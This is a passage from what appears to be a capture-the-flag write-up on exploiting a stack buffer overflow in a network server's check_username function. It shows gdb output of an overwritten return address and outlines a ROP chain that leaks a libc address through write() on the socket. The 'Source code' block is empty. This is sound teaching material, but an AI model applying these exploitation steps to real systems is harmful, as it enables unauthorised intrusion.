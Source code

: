 ```python
```


We get:
```
   0x555555554c5c <check_username+237>:	leave  
=> 0x555555554c5d <check_username+238>:	ret    
   0x555555554c5e <exit_server>:	push   rbp
   0x555555554c5f <exit_server+1>:	mov    rbp,rsp
   0x555555554c62 <exit_server+4>:	sub    rsp,0x20
   0x555555554c66 <exit_server+8>:	mov    DWORD PTR [rbp-0x14],edi
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe118 --> 0xdeadbeefdeadbeef 
0008| 0x7fffffffe120 ('O' <repeats 200 times>...)
0016| 0x7fffffffe128 ('O' <repeats 200 times>...)
0024| 0x7fffffffe130 ('O' <repeats 200 times>...)
0032| 0x7fffffffe138 ('O' <repeats 200 times>...)
0040| 0x7fffffffe140 ('O' <repeats 200 times>...)
0048| 0x7fffffffe148 ('O' <repeats 200 times>...)
0056| 0x7fffffffe150 ('O' <repeats 200 times>...)
```

And from here we can write a pretty nice and long ROP chain that can take us where ever we like!

### Leaking an address of a function in libc
My next step usually is to go ahead to leak some entry from the GOT, take that address to some libc-database and then learn the libc version used in the remote machine.

So let's try that, we'll create a ROP chain to call something like: `write(int socket_fd, (void*) buffer_addr, ssize_t length)`. The `socket_fd` can be figured out by looking at our own process's file descriptors:

```
=> 0x555555554bad <check_username+62>:	call   0x555555554910 <write@plt>
   0x555555554bb2 <check_username+67>:	lea    rcx,[rbp-0x410]
   0x555555554bb9 <check_username+74>:	mov    eax,DWORD PTR [rbp-0x424]
   0x555555554bbf <check_username+80>:	mov    edx,0x420
   0x555555554bc4 <check_username+85>:	mov    rsi,rcx
Guessed arguments:
arg[0]: 0x4   <---- file_descriptor
arg[1]: 0x555555554f94 ("Username: ")
arg[2]: 0xa ('\n')
```

The same fd can be seen when the process is using `read`:

```
=> 0x555555554bc9 <check_username+90>:	call   0x555555554970 <read@plt>
   0x555555554bce <check_username+95>:	mov    DWORD PTR [rbp-0x414],eax
   0x555555554bd4 <check_username+101>:	mov    DWORD PTR [rbp-0x418],0x0
   0x555555554bde <check_username+111>:	jmp    0x555555554c0b <check_username+156>
   0x555555554be0 <check_username+113>:	mov    eax,DWORD PTR [rbp-0x418]
Guessed arguments:
arg[0]: 0x4 
arg[1]: 0x7fffffffe110 --> 0x7ffff7ffe4c8 --> 0x7ffff7ffe428 --> 0x7ffff7ff1510 --> 0x7ffff7ffe170 --> 0x555555554000 (--> ...)
arg[2]: 0x420 
```
